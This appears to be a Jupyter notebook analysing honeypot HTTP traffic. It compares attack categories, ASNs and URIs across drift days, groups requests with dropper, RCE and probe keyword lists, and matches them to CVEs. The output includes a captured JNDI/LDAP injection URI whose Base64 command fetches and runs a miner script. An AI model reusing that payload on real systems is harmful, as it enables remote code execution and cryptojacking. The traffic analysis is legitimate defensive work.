=== Drift Comparison for 2025-04-20 (00:00 - 15:00) ===

[Category shift (Proportion)]
                   baseline     drift      diff
category                                       
intrusion-control  0.421576  0.967071  0.545495
['*/*']            0.000003  0.000000 -0.000003
nan                0.035205  0.000000 -0.035205
scan               0.203105  0.012935 -0.190170
attempt            0.340111  0.019994 -0.320117

[Novelty ratios]
new_uris            : 5176
new_user_agents     : 658
new_as_orgs         : 134
uri_overlap_ratio   : 0.06449743574884827
ua_overlap_ratio    : 0.21466024045336582
asn_overlap_ratio   : 0.22235434007134364

[Top ASN change (New > Old)]
                                            baseline     drift      diff
client_as_org                                                           
P

'\n    print("\n\n--- ANALYZING POST-DRIFT WINDOW (15:00 - 00:00) ---")\n    compare_to_baseline(day_to_analyze, start_time="15:00", end_time="00:00",\n                        base_root="../data/sequences", drift_root="../data/sequences",\n                        out_dir=f"../data/ana/{day_to_analyze}")\n'

In [9]:
day_to_analyze = "2025-09-28"
compare_to_baseline(day_to_analyze, start_time="00:00", end_time="23:00",
                        base_root="../data/sequences", drift_root="../data/sequences",
                        out_dir=f"../data/ana/{day_to_analyze}")

Loading baseline: 8 days...
Loading drift window: 2025-09-28 from 00:00 to 23:00...
Found 24 files for the specified time range.

=== Drift Comparison for 2025-09-28 (00:00 - 23:00) ===

[Category shift (Proportion)]
                             baseline     drift      diff
category                                                 
scan                         0.203105  0.456030  0.252925
['application/dns-message']  0.000000  0.000015  0.000015
['*/*']                      0.000003  0.000000 -0.000003
attempt                      0.340111  0.326925 -0.013187
nan                          0.035205  0.000099 -0.035105
intrusion-control            0.421576  0.216931 -0.204645

[Novelty ratios]
new_uris            : 2735
new_user_agents     : 1216
new_as_orgs         : 311
uri_overlap_ratio   : 0.07003158230232086
ua_overlap_ratio    : 0.24437264975372067
asn_overlap_ratio   : 0.2556480380499406

[Top ASN change (New > Old)]
                                       baseline     drift      dif

{'cat_comp':                              baseline     drift      diff
 category                                                 
 intrusion-control            0.421576  0.216931 -0.204645
 attempt                      0.340111  0.326925 -0.013187
 scan                         0.203105  0.456030  0.252925
 nan                          0.035205  0.000099 -0.035105
 ['*/*']                      0.000003  0.000000 -0.000003
 ['application/dns-message']  0.000000  0.000015  0.000015,
 'asn_comp':                                     baseline     drift      diff
 client_as_org                                                   
 REDHEBERG Association declaree      0.180715  0.000000 -0.180715
 Yandex.Cloud LLC                    0.168264  0.000000 -0.168264
 GOOGLE-CLOUD-PLATFORM               0.107485  0.089782 -0.017703
 DIGITALOCEAN-ASN                    0.049272  0.067193  0.017921
 Hostglobal.plus Ltd                 0.046422  0.024148 -0.022274
 ...                                     

In [10]:
day_to_analyze = "2025-05-27"
compare_to_baseline(day_to_analyze, start_time="00:00", end_time="15:00",
                        base_root="../data/sequences", drift_root="../data/sequences",
                        out_dir=f"../data/ana/{day_to_analyze}")

Loading baseline: 8 days...


Loading drift window: 2025-05-27 from 00:00 to 15:00...
Found 16 files for the specified time range.

=== Drift Comparison for 2025-05-27 (00:00 - 15:00) ===

[Category shift (Proportion)]
                   baseline     drift      diff
category                                       
scan               0.203105  0.441342  0.238237
['*/*']            0.000003  0.000010  0.000007
nan                0.035205  0.000000 -0.035205
attempt            0.340111  0.247456 -0.092656
intrusion-control  0.421576  0.311192 -0.110383

[Novelty ratios]
new_uris            : 3558
new_user_agents     : 596
new_as_orgs         : 176
uri_overlap_ratio   : 0.0873583866948686
ua_overlap_ratio    : 0.13230231449605423
asn_overlap_ratio   : 0.20332936979785968

[Top ASN change (New > Old)]
                                  baseline     drift      diff
client_as_org                                                 
Pfcloud UG                        0.002622  0.275584  0.272962
GOOGLE-CLOUD-PLATFORM             

{'cat_comp':                    baseline     drift      diff
 category                                       
 intrusion-control  0.421576  0.311192 -0.110383
 attempt            0.340111  0.247456 -0.092656
 scan               0.203105  0.441342  0.238237
 nan                0.035205  0.000000 -0.035205
 ['*/*']            0.000003  0.000010  0.000007,
 'asn_comp':                                                     baseline     drift  \
 client_as_org                                                            
 REDHEBERG Association declaree                      0.180715  0.000000   
 Yandex.Cloud LLC                                    0.168264  0.000000   
 GOOGLE-CLOUD-PLATFORM                               0.107485  0.142123   
 DIGITALOCEAN-ASN                                    0.049272  0.056343   
 Hostglobal.plus Ltd                                 0.046422  0.008682   
 ...                                                      ...       ...   
 NEWNET CONSULTORIA, INFORMATICA

In [11]:
day_to_analyze = "2025-05-27"
compare_to_baseline(day_to_analyze, start_time="07:00", end_time="08:00",
                        base_root="../data/sequences", drift_root="../data/sequences",
                        out_dir=f"../data/ana/{day_to_analyze}")

Loading baseline: 8 days...
Loading drift window: 2025-05-27 from 07:00 to 08:00...
Found 2 files for the specified time range.

=== Drift Comparison for 2025-05-27 (07:00 - 08:00) ===

[Category shift (Proportion)]
                   baseline     drift      diff
category                                       
scan               0.203105  0.371338  0.168233
['*/*']            0.000003  0.000000 -0.000003
intrusion-control  0.421576  0.406228 -0.015347
nan                0.035205  0.000000 -0.035205
attempt            0.340111  0.222434 -0.117677

[Novelty ratios]
new_uris            : 469
new_user_agents     : 64
new_as_orgs         : 35
uri_overlap_ratio   : 0.02862689421377452
ua_overlap_ratio    : 0.030506858746888407
asn_overlap_ratio   : 0.07609988109393578

[Top ASN change (New > Old)]
                                                     baseline     drift  \
client_as_org                                                             
Pfcloud UG                                     

{'cat_comp':                    baseline     drift      diff
 category                                       
 intrusion-control  0.421576  0.406228 -0.015347
 attempt            0.340111  0.222434 -0.117677
 scan               0.203105  0.371338  0.168233
 nan                0.035205  0.000000 -0.035205
 ['*/*']            0.000003  0.000000 -0.000003,
 'asn_comp':                                 baseline     drift      diff
 client_as_org                                               
 REDHEBERG Association declaree  0.180715  0.000000 -0.180715
 Yandex.Cloud LLC                0.168264  0.000000 -0.168264
 GOOGLE-CLOUD-PLATFORM           0.107485  0.218240  0.110755
 DIGITALOCEAN-ASN                0.049272  0.035081 -0.014191
 Hostglobal.plus Ltd             0.046422  0.006355 -0.040066
 ...                                  ...       ...       ...
 ONIAAS                          0.000000  0.000064  0.000064
 mieX GmbH                       0.000000  0.000064  0.000064
 XNNET      

In [9]:
day_to_analyze = "2025-10-10"
compare_to_baseline(day_to_analyze, start_time="01:00", end_time="13:00",
                        base_root="../data/sequences", drift_root="../data/sequences",
                        out_dir=f"../data/ana/{day_to_analyze}")

Loading baseline: 8 days...
Loading drift window: 2025-10-10 from 01:00 to 13:00...
Found 13 files for the specified time range.

=== Drift Comparison for 2025-10-10 (01:00 - 13:00) ===

[Category shift (Proportion)]
                   baseline     drift      diff
category                                       
scan               0.203105  0.390363  0.187258
['*/*']            0.000003  0.000000 -0.000003
intrusion-control  0.421576  0.399788 -0.021787
nan                0.035205  0.000013 -0.035191
attempt            0.340111  0.209835 -0.130276

[Novelty ratios]
new_uris            : 2062
new_user_agents     : 926
new_as_orgs         : 197
uri_overlap_ratio   : 0.05473299915973691
ua_overlap_ratio    : 0.2347333298024469
asn_overlap_ratio   : 0.18311533888228299

[Top ASN change (New > Old)]
                                          baseline     drift      diff
client_as_org                                                         
DIGITALOCEAN-ASN                          0.049272  0

{'cat_comp':                    baseline     drift      diff
 category                                       
 intrusion-control  0.421576  0.399788 -0.021787
 attempt            0.340111  0.209835 -0.130276
 scan               0.203105  0.390363  0.187258
 nan                0.035205  0.000013 -0.035191
 ['*/*']            0.000003  0.000000 -0.000003,
 'asn_comp':                                 baseline     drift      diff
 client_as_org                                               
 REDHEBERG Association declaree  0.180715  0.000000 -0.180715
 Yandex.Cloud LLC                0.168264  0.000000 -0.168264
 GOOGLE-CLOUD-PLATFORM           0.107485  0.041644 -0.065841
 DIGITALOCEAN-ASN                0.049272  0.286333  0.237061
 Hostglobal.plus Ltd             0.046422  0.031862 -0.014560
 ...                                  ...       ...       ...
 Inter.Com Ltd                   0.000000  0.000013  0.000013
 REFSA TELECOMUNICACIONES        0.000000  0.000013  0.000013
 LM Layer an

In [18]:
day_to_analyze = "2025-06-12"
compare_to_baseline(day_to_analyze, start_time="10:00", end_time="12:00",
                        base_root="../data/sequences", drift_root="../data/sequences",
                        out_dir=f"../data/ana/{day_to_analyze}")

Loading baseline: 8 days...
Loading drift window: 2025-06-12 from 10:00 to 12:00...
Found 3 files for the specified time range.

=== Drift Comparison for 2025-06-12 (10:00 - 12:00) ===

[Category shift (Proportion)]
                   baseline     drift      diff
category                                       
scan               0.203105  0.447442  0.244337
['*/*']            0.000003  0.000000 -0.000003
nan                0.035205  0.000000 -0.035205
attempt            0.340111  0.248364 -0.091747
intrusion-control  0.421576  0.304193 -0.117382

[Novelty ratios]
new_uris            : 640
new_user_agents     : 323
new_as_orgs         : 83
uri_overlap_ratio   : 0.026772520499521918
ua_overlap_ratio    : 0.04544250834171919
asn_overlap_ratio   : 0.09750297265160524

[Top ASN change (New > Old)]
                                                       baseline     drift  \
client_as_org                                                               
Pfcloud UG                                

{'cat_comp':                    baseline     drift      diff
 category                                       
 intrusion-control  0.421576  0.304193 -0.117382
 attempt            0.340111  0.248364 -0.091747
 scan               0.203105  0.447442  0.244337
 nan                0.035205  0.000000 -0.035205
 ['*/*']            0.000003  0.000000 -0.000003,
 'asn_comp':                                               baseline     drift      diff
 client_as_org                                                             
 REDHEBERG Association declaree                0.180715  0.000000 -0.180715
 Yandex.Cloud LLC                              0.168264  0.000000 -0.168264
 GOOGLE-CLOUD-PLATFORM                         0.107485  0.226681  0.119196
 DIGITALOCEAN-ASN                              0.049272  0.045922 -0.003350
 Hostglobal.plus Ltd                           0.046422  0.011278 -0.035144
 ...                                                ...       ...       ...
 NETMAX COMPUTERS       

## All day comparison

In [12]:
import pandas as pd
import glob, os

def compare_to_baseline(day_str,
                        base_root="../data/sequences",
                        drift_root="../data/sequences",
                        days_baseline=8,
                        blocks_per_day=24):
    """
    Compare a drift day's HTTP behavior against the baseline reference window.

    Parameters
    ----------
    day_str : str
        Target date, e.g. '2025-04-20'
    base_root : str
        Folder containing main honeypot sequences (baseline)
    drift_root : str
        Folder containing same-format sequences for drift day
    days_baseline : int
        Baseline duration (default 8 days)
    blocks_per_day : int
        Number of blocks per day (default 24)
    """

    # --- (1) Baseline window (first 8 days) ---
    print(f"Loading baseline: {days_baseline} days...")
    all_folders = sorted(glob.glob(os.path.join(base_root, "2025-*")))
    baseline_days = all_folders[:days_baseline]
    base_files = []
    for d in baseline_days:
        base_files.extend(sorted(glob.glob(os.path.join(d, "*.csv"))))
    
    # Check if baseline files are found
    if not base_files:
        print(f"[ERROR] No baseline files found in {base_root} for the first {days_baseline} days.")
        return None

    baseline_df = pd.concat([pd.read_csv(f) for f in base_files], ignore_index=True)

    # --- (2) Drift day ---
    print(f"Loading drift day: {day_str}...")
    drift_day_path = os.path.join(drift_root, day_str)
    drift_files = sorted(glob.glob(os.path.join(drift_day_path, "*.csv")))
    
    # Check if drift files are found
    if not drift_files:
        print(f"[ERROR] No drift files found for {day_str} in {drift_root}.")
        return None

    drift_df = pd.concat([pd.read_csv(f) for f in drift_files], ignore_index=True)

    # --- (3) Clean / focus ---
    print("Cleaning and focusing data...")
    for df in [baseline_df, drift_df]:
        df["category"] = df["category"].astype(str).str.lower()
        df["http_uri"] = df["http_uri"].astype(str).str.lower()
        df["http_user_agent"] = df["http_user_agent"].astype(str)
        df["client_as_org"] = df["client_as_org"].astype(str)

    # --- (4) Category shift ---
    cat_comp = pd.concat([
        baseline_df["category"].value_counts(normalize=True).rename("baseline"),
        drift_df["category"].value_counts(normalize=True).rename("drift")
    ], axis=1).fillna(0)
    cat_comp["diff"] = cat_comp["drift"] - cat_comp["baseline"]

    # --- (5) Novelty ratios ---
    novelty_stats = {
        "new_uris": len(set(drift_df["http_uri"]) - set(baseline_df["http_uri"])),
        "new_user_agents": len(set(drift_df["http_user_agent"]) - set(baseline_df["http_user_agent"])),
        "new_as_orgs": len(set(drift_df["client_as_org"]) - set(baseline_df["client_as_org"])),
        "uri_overlap_ratio": len(set(drift_df["http_uri"]) & set(baseline_df["http_uri"])) / max(1, len(set(baseline_df["http_uri"]))),
        "ua_overlap_ratio": len(set(drift_df["http_user_agent"]) & set(baseline_df["http_user_agent"])) / max(1, len(set(baseline_df["http_user_agent"]))),
        "asn_overlap_ratio": len(set(drift_df["client_as_org"]) & set(baseline_df["client_as_org"])) / max(1, len(set(baseline_df["client_as_org"]))),
    }

    # --- (6) ASN shift ---
    asn_comp = pd.concat([
        baseline_df["client_as_org"].value_counts(normalize=True).rename("baseline"),
        drift_df["client_as_org"].value_counts(normalize=True).rename("drift")
    ], axis=1).fillna(0)
    asn_comp["diff"] = asn_comp["drift"] - asn_comp["baseline"]
    asn_comp = asn_comp.sort_values("diff", ascending=False)
    
    # --- (7) User Agent shift (NEW) ---
    ua_comp = pd.concat([
        baseline_df["http_user_agent"].value_counts(normalize=True).rename("baseline"),
        drift_df["http_user_agent"].value_counts(normalize=True).rename("drift")
    ], axis=1).fillna(0)
    ua_comp["diff"] = ua_comp["drift"] - ua_comp["baseline"]
    ua_comp = ua_comp.sort_values("diff", ascending=False)
    
    # --- (8) URI shift (NEW) ---
    uri_comp = pd.concat([
        baseline_df["http_uri"].value_counts(normalize=True).rename("baseline"),
        drift_df["http_uri"].value_counts(normalize=True).rename("drift")
    ], axis=1).fillna(0)
    uri_comp["diff"] = uri_comp["drift"] - uri_comp["baseline"]
    uri_comp = uri_comp.sort_values("diff", ascending=False)

    # --- (9) Print summary ---
    print(f"\n=== Drift Comparison for {day_str} ===")
    
    print("\n[Category shift (Proportion)]")
    print(cat_comp.sort_values("diff", ascending=False))
    
    print("\n[Novelty ratios]")
    for k, v in novelty_stats.items():
        print(f"{k:20s}: {v}")

    print("\n[Top ASN change (New > Old)]")
    print(asn_comp.head(20))
    
    print("\n[Top User Agent change (New > Old)]")
    print(ua_comp.head(20))
    
    print("\n[Top URI change (New > Old)]")
    print(uri_comp.head(20))

    return {
        "cat_comp": cat_comp,
        "asn_comp": asn_comp,
        "ua_comp": ua_comp,
        "uri_comp": uri_comp,
        "novelty": novelty_stats,
        "baseline_df": baseline_df,
        "drift_df": drift_df
    }

# --- Example of how to run it ---
if __name__ == "__main__":
    # This is the day from your plot, which showed the massive drift
    day_to_analyze = '2025-04-20'
    
    # Run the analysis
    analysis_results = compare_to_baseline(
        day_str=day_to_analyze,
        base_root="../data/sequences",  # Adjust path if needed
        drift_root="../data/sequences"  # Adjust path if needed
    )
    
    # You can now access the full dataframes from the results if needed
    # e.g., ua_results = analysis_results["ua_comp"]

Loading baseline: 8 days...


Loading drift day: 2025-04-20...
Cleaning and focusing data...

=== Drift Comparison for 2025-04-20 ===

[Category shift (Proportion)]
                   baseline     drift      diff
category                                       
intrusion-control  0.421576  0.957360  0.535785
['*/*']            0.000003  0.000000 -0.000003
nan                0.035205  0.000000 -0.035205
scan               0.203105  0.019333 -0.183772
attempt            0.340111  0.023307 -0.316805

[Novelty ratios]
new_uris            : 5712
new_user_agents     : 869
new_as_orgs         : 189
uri_overlap_ratio   : 0.07046620114159882
ua_overlap_ratio    : 0.2638101795455749
asn_overlap_ratio   : 0.26634958382877527

[Top ASN change (New > Old)]
                                            baseline     drift      diff
client_as_org                                                           
Private Layer INC                           0.003243  0.937741  0.934498
NL-811-40021                                0.005089  0.00

In [13]:
res = compare_to_baseline("2025-09-28")

Loading baseline: 8 days...
Loading drift day: 2025-09-28...
Cleaning and focusing data...

=== Drift Comparison for 2025-09-28 ===

[Category shift (Proportion)]
                             baseline     drift      diff
category                                                 
scan                         0.203105  0.456030  0.252925
['application/dns-message']  0.000000  0.000015  0.000015
['*/*']                      0.000003  0.000000 -0.000003
attempt                      0.340111  0.326925 -0.013187
nan                          0.035205  0.000099 -0.035105
intrusion-control            0.421576  0.216931 -0.204645

[Novelty ratios]
new_uris            : 2735
new_user_agents     : 1216
new_as_orgs         : 311
uri_overlap_ratio   : 0.07003158230232086
ua_overlap_ratio    : 0.24437264975372067
asn_overlap_ratio   : 0.2556480380499406

[Top ASN change (New > Old)]
                                       baseline     drift      diff
client_as_org                                       

In [14]:
res = compare_to_baseline("2025-05-27")

Loading baseline: 8 days...
Loading drift day: 2025-05-27...
Cleaning and focusing data...

=== Drift Comparison for 2025-05-27 ===

[Category shift (Proportion)]
                   baseline     drift      diff
category                                       
scan               0.203105  0.411072  0.207967
['*/*']            0.000003  0.000007  0.000004
nan                0.035205  0.000000 -0.035205
attempt            0.340111  0.296977 -0.043134
intrusion-control  0.421576  0.291944 -0.129632

[Novelty ratios]
new_uris            : 4022
new_user_agents     : 771
new_as_orgs         : 241
uri_overlap_ratio   : 0.09187842262335931
ua_overlap_ratio    : 0.14914464276256553
asn_overlap_ratio   : 0.2407847800237812

[Top ASN change (New > Old)]
                                       baseline     drift      diff
client_as_org                                                      
Pfcloud UG                             0.002622  0.217412  0.214790
VNPT Corp                              0.0000

In [15]:
res = compare_to_baseline("2025-10-10")

Loading baseline: 8 days...
Loading drift day: 2025-10-10...
Cleaning and focusing data...

=== Drift Comparison for 2025-10-10 ===

[Category shift (Proportion)]
                   baseline     drift      diff
category                                       
scan               0.203105  0.434432  0.231327
['*/*']            0.000003  0.000000 -0.000003
nan                0.035205  0.000068 -0.035137
intrusion-control  0.421576  0.361869 -0.059706
attempt            0.340111  0.203631 -0.136480

[Novelty ratios]
new_uris            : 3249
new_user_agents     : 1471
new_as_orgs         : 269
uri_overlap_ratio   : 0.06472923246312984
ua_overlap_ratio    : 0.3346750701763678
asn_overlap_ratio   : 0.23543400713436385

[Top ASN change (New > Old)]
                                              baseline     drift      diff
client_as_org                                                             
DIGITALOCEAN-ASN                              0.049272  0.236081  0.186810
Pfcloud UG             

In [16]:
res = compare_to_baseline("2025-06-12")

Loading baseline: 8 days...
Loading drift day: 2025-06-12...
Cleaning and focusing data...

=== Drift Comparison for 2025-06-12 ===

[Category shift (Proportion)]
                   baseline     drift      diff
category                                       
scan               0.203105  0.496029  0.292924
['*/*']            0.000003  0.000000 -0.000003
nan                0.035205  0.000000 -0.035205
attempt            0.340111  0.215954 -0.124158
intrusion-control  0.421576  0.288017 -0.133558

[Novelty ratios]
new_uris            : 2825
new_user_agents     : 899
new_as_orgs         : 246
uri_overlap_ratio   : 0.06426563903456668
ua_overlap_ratio    : 0.15444097240612256
asn_overlap_ratio   : 0.25089179548156954

[Top ASN change (New > Old)]
                                       baseline     drift      diff
client_as_org                                                      
Pfcloud UG                             0.002622  0.239313  0.236691
AMAZON-02                              0.006

### Timeline Check

In [2]:
import pandas as pd
import numpy as np

# ==============================================================
# 1. Load and prepare data
# ==============================================================

df = pd.read_csv("../data/daily/http_day_2025-10-10.csv")

# Convert to datetime
df["startTime"] = pd.to_datetime(df["startTime"], errors="coerce")
df["clientIP"] = df["clientIP"].astype(str)
df["http_uri"] = df["http_uri"].astype(str)

# Sort globally by time
df = df.sort_values("startTime")

# ==============================================================
# 2. Filter to the day of interest
# ==============================================================

day_start = "2025-10-10 01:00:00"
day_end   = "2025-10-10 14:00:00"

mask = (df["startTime"] >= day_start) & (df["startTime"] <= day_end)
df_day = df[mask].copy()

print("Records in window:", len(df_day))


# ==============================================================
# 3. Define payload groups
# ==============================================================

# A. Binary dropper style
droppers = [
    "boatnet", "hiddenbin", "arm7", "arm6", "x86", "sh4",
    "bins", "device.rsp"
]

# B. Deep encoded RCE patterns
rce_signatures = [
    "jndi", "ldap", "tomcatbypass", "base64", "%7dndi", "%257dndi"
]

# C. Misconfiguration probes
probe_keywords = [
    ".env", "config.php", "debug", "profiler", "router", "admin"
]

def match_group(uri, keywords):
    uri_low = uri.lower()
    return any(k in uri_low for k in keywords)

df_day["group"] = "other"
df_day.loc[df_day["http_uri"].apply(lambda u: match_group(u, droppers)), "group"] = "dropper"
df_day.loc[df_day["http_uri"].apply(lambda u: match_group(u, rce_signatures)), "group"] = "rce"
df_day.loc[df_day["http_uri"].apply(lambda u: match_group(u, probe_keywords)), "group"] = "probe"


# ==============================================================
# 4. Sequence reconstruction per IP
# ==============================================================

ip_groups = {}

for ip, sub in df_day.groupby("clientIP"):
    seq = sub.sort_values("startTime")[
        ["startTime", "http_uri", "group", "category", "client_as_org"]
    ]
    ip_groups[ip] = seq

print("Unique IP count:", len(ip_groups))


# ==============================================================
# 5. Check temporal co occurrence
# ==============================================================

def check_chain_pattern(seq):
    """Return True if probe → rce → dropper pattern appears in temporal order"""
    flags = {"probe": False, "rce": False, "dropper": False}

    for _, row in seq.iterrows():
        g = row["group"]
        if g in flags:
            flags[g] = True

        # If all three seen in order at some point
        if flags["probe"] and flags["rce"] and flags["dropper"]:
            return True

    return False


chain_ips = []
for ip, seq in ip_groups.items():
    if check_chain_pattern(seq):
        chain_ips.append(ip)

print("IPs showing probe → rce → dropper sequence:", len(chain_ips))


# ==============================================================
# 6. Summaries for reporting
# ==============================================================

summary = df_day.groupby("group").size().sort_values(ascending=False)
print("Payload group counts:")
print(summary)

asn_summary = df_day.groupby(["group", "client_as_org"]).size().reset_index(name="count")
print("ASN distribution per group:")
print(asn_summary)

# Save sequences for manual inspection
for ip in chain_ips:
    ip_groups[ip].to_csv(f"sequence_{ip}.csv", index=False)


Records in window: 75544
Unique IP count: 4737
IPs showing probe → rce → dropper sequence: 0
Payload group counts:
group
other      64374
probe      10864
rce          225
dropper       81
dtype: int64
ASN distribution per group:
       group                          client_as_org  count
0    dropper  Hangzhou Alibaba Advertising Co.,Ltd.      2
1    dropper                          ROUTERHOSTING     79
2      other          1&1 Versatel Deutschland GmbH     79
3      other                     1337 Services GmbH    165
4      other                           2 Cloud Ltd.      2
..       ...                                    ...    ...
650    probe                        eTOP sp. z o.o.     14
651    probe                            netcup GmbH      3
652    probe                       web2objects GmbH      4
653    probe                                 xneelo     13
654      rce                           Tube-Hosting    225

[655 rows x 3 columns]


In [3]:
import pandas as pd

# rce signature patterns
rce_patterns = [
    "jndi", 
    "ldap", 
    "base64", 
    "%257d", 
    "%7dndi", 
    "tomcatbypass"
]

def is_rce(uri):
    u = str(uri).lower()
    return any(p in u for p in rce_patterns)

# filter rce records
rce_df = df_day[df_day["http_uri"].apply(is_rce)].copy()
print("RCE count:", len(rce_df))

# list all unique IPs that send RCE
rce_ips = rce_df["clientIP"].unique()
print("Unique RCE IPs:", len(rce_ips))

# infrastructure overview
asn_table = (
    rce_df.groupby(["client_as_org", "client_country"])
    .size()
    .reset_index(name="count")
    .sort_values("count", ascending=False)
)
print(asn_table)

# UA distribution inside RCE group
ua_table = (
    rce_df["http_user_agent"]
    .value_counts()
    .reset_index()
    .rename(columns={"index": "ua", "http_user_agent": "count"})
)
print(ua_table)

# all activity from RCE related IPs
assoc_df = df_day[df_day["clientIP"].isin(rce_ips)].copy()

print("All records from RCE IPs:", len(assoc_df))

# group their behaviour
behaviour_table = (
    assoc_df["http_uri"]
    .apply(lambda x: x.split("?")[0] if isinstance(x, str) else x)
    .value_counts()
    .head(40)
)
print("Top payloads from RCE IPs:")
print(behaviour_table)

# category breakdown
cat_table = assoc_df["category"].value_counts(normalize=True)
print("Category mix for RCE IPs:")
print(cat_table)

# check if any IP sends probe or dropper together with rce
assoc_summary = (
    assoc_df.assign(
        is_probe=lambda df: df["http_uri"].str.contains("env", case=False, na=False) |
                            df["http_uri"].str.contains("config", case=False, na=False),
        is_dropper=lambda df: df["http_uri"].str.contains("wget", case=False, na=False) |
                              df["http_uri"].str.contains("hiddenbin", case=False, na=False)
    )
    .groupby("clientIP")[["is_probe", "is_dropper"]]
    .any()
)

print("Probe or dropper behaviour inside RCE IPs:")
print(assoc_summary)


RCE count: 238
Unique RCE IPs: 3
         client_as_org   client_country  count
2         Tube-Hosting          Germany    225
0           Pfcloud UG  The Netherlands     12
1  Techoff Srv Limited         Bulgaria      1
                                               count  count
0  ["t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:...    225
1                             ['Go-http-client/1.1']     12
2  ['Mozilla/5.0 (Windows NT 10.0; Win64; x64) Ap...      1
All records from RCE IPs: 1016
Top payloads from RCE IPs:
http_uri
/t%28%27$%7B$%7Benv:NaN:-j%7Dndi$%7Benv:NaN:-:%7D$%7Benv:NaN:-l%7Ddap$%7Benv:NaN:-:%7D//45.38.42.81:3389/TomcatBypass/Command/Base64/ZXhwb3J0IEhPTUU9L3RtcDsgY3VybCAtcyAtTCBodHRwczovL2Rvd25sb2FkLmMzcG9vbC5vcmcveG1yaWdfc2V0dXAvcmF3L21hc3Rlci9zZXR1cF9jM3Bvb2xfbWluZXIuc2ggfCBMQ19BTEw9ZW5fVVMuVVRGLTggYmFzaCAtcyA0ODZ4cXc3eXNYZEt3N1JrVnpUNXRkU2lEdEU2c294VWRZYUdhR0UxR29hQ2R2QkY3clZnNW9NWEw5cEZ4M3JCMVdVQ1pySnZkNkFITUZXaXBlWXQ1ZUZOVXg5cG1HTg==%7D%27%29                          

CVE Cross-check

In [4]:
import pandas as pd
import re

# ------------------------------------------------------
# Load CVE signature corpus
# ------------------------------------------------------
cve_df = pd.read_csv("../data/cve_corpus.csv")

# Normalise fields
cve_df['path'] = cve_df['path'].astype(str).str.strip()
cve_df['request'] = cve_df['request'].astype(str).str.strip()

# ------------------------------------------------------
# Load the drift-day dataframe
# (example: df_1010 for 2025-10-10)
# ------------------------------------------------------
drift_df = pd.read_csv("../data/daily/http_day_2025-10-10.csv")
drift_df['http_uri'] = drift_df['http_uri'].astype(str).str.strip()


# Token extractor
def extract_tokens(s):
    s = s.lower()
    s = re.sub(r'[^a-z0-9/_\-\.]', ' ', s)
    return [t for t in re.split(r'[\/\?\=\&\.\-]', s) if t and len(t) > 2]


# Matching function with ≥2 token rule
def match_uri_against_cve(uri, cve_df, min_token_hits=2):
    uri_low = uri.lower()
    uri_tokens = extract_tokens(uri_low)

    matches = []

    for idx, row in cve_df.iterrows():
        cve_path = row['path'].lower()
        cve_tokens = row['tokens']

        # 1) strong match: direct substring
        if cve_path in uri_low:
            matches.append(row['cve_ids'])
            continue

        # 2) weak match: token overlap
        overlap = set(uri_tokens).intersection(set(cve_tokens))
        if len(overlap) >= min_token_hits:
            matches.append(row['cve_ids'])

    return matches

# ------------------------------------------------------
# Run matching on the entire drift window
# ------------------------------------------------------
drift_df['cve_hits'] = drift_df['http_uri'].apply(
    lambda u: match_uri_against_cve(u, cve_df)
)

# Keep only rows with matches
matched = drift_df[drift_df['cve_hits'].apply(len) > 0]

print("Matched entries:", len(matched))
matched.head(20)


Matched entries: 59328


,protocol,category,id,http_method,http_status,http_uri,http_body,http_accept,http_accept_encoding,http_user_agent,...,endTime,clientIP,client_asn,client_as_org,client_country,hostIP,host_asn,host_as_org,host_country,cve_hits
2,http,attempt,Xr3E5JkB8Nz0CkWYI4JQ#0,HEAD,301,/Core/Skin/Login.aspx,NaN,"['text/html,application/xhtml+xml,application/...","['gzip, deflate']",['Mozilla/5.0 (Windows NT 10.0; Win64; x64) Ap...,...,2025-10-10T17:54:13.408162815Z,43.129.169.161,132203.0,"Tencent Building, Kejizhongyi Avenue",Hong Kong,18.191.166.61,16509,AMAZON-02,United States,"[CVE-2022-28171, CVE-2017-18369]"
6,http,scan,B8-55JkBROLTwDbLKqeY#3,GET,301,http://txt.go.sohu.com/ip/soip?0.5180187968039...,NaN,NaN,NaN,['Mozilla/5.0 (Windows NT 10.1;) AppleWebKit/5...,...,2025-10-10T10:09:43.242981129Z,154.201.87.78,401696.0,COGNETCLOUD,Seychelles,43.199.136.49,16509,AMAZON-02,Hong Kong,"[CVE-2025-34068, CVE-2025-34068]"
7,http,scan,B8-55JkBROLTwDbLKqeY#4,GET,404,http://txt.go.sohu.com/ip/soip/,NaN,NaN,NaN,['Mozilla/5.0 (Windows NT 10.1;) AppleWebKit/5...,...,2025-10-10T10:09:43.242981129Z,154.201.87.78,401696.0,COGNETCLOUD,Seychelles,43.199.136.49,16509,AMAZON-02,Hong Kong,"[CVE-2025-34068, CVE-2025-34068]"
10,http,attempt,T7-55JkBpMzovo26KnO3#0,GET,301,/.git/config,NaN,['*/*'],"['gzip, deflate']",['Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/...,...,2025-10-10T11:36:04.527310293Z,209.38.94.28,14061.0,DIGITALOCEAN-ASN,Australia,43.199.136.49,16509,AMAZON-02,Hong Kong,"[CVE-2025-47782, CVE-2025-47782]"
11,http,attempt,NRq55JkB4_b3_drsKsl-#0,HEAD,301,/Core/Skin/Login.aspx,NaN,"['text/html,application/xhtml+xml,application/...","['gzip, deflate']",['Mozilla/5.0 (Windows NT 10.0; Win64; x64) Ap...,...,2025-10-10T11:35:25.089065117Z,101.32.218.31,132203.0,"Tencent Building, Kejizhongyi Avenue",Hong Kong,43.199.136.49,16509,AMAZON-02,Hong Kong,"[CVE-2022-28171, CVE-2017-18369]"
25,http,intrusion-control,G6_b0JkBpMzovo26a-bO#1,GET,404,/https:%5C/%5C/gcap.html-view.com%5C/wp-includ...,NaN,"['text/html,application/xhtml+xml,application/...","['gzip, deflate, br']",['Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv...,...,2025-10-10T22:46:46.929957488Z,209.226.130.75,577.0,BACOM,Canada,13.56.223.122,16509,AMAZON-02,United States,"[CVE-2023-33538, CVE‑2022‑35914]"
26,http,intrusion-control,G6_b0JkBpMzovo26a-bO#2,GET,404,/https:%5C/%5C/gcap.html-view.com%5C/wp-includ...,NaN,"['text/html,application/xhtml+xml,application/...","['gzip, deflate, br']",['Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv...,...,2025-10-10T22:46:46.929957488Z,209.226.130.75,577.0,BACOM,Canada,13.56.223.122,16509,AMAZON-02,United States,"[CVE-2023-33538, CVE‑2022‑35914]"
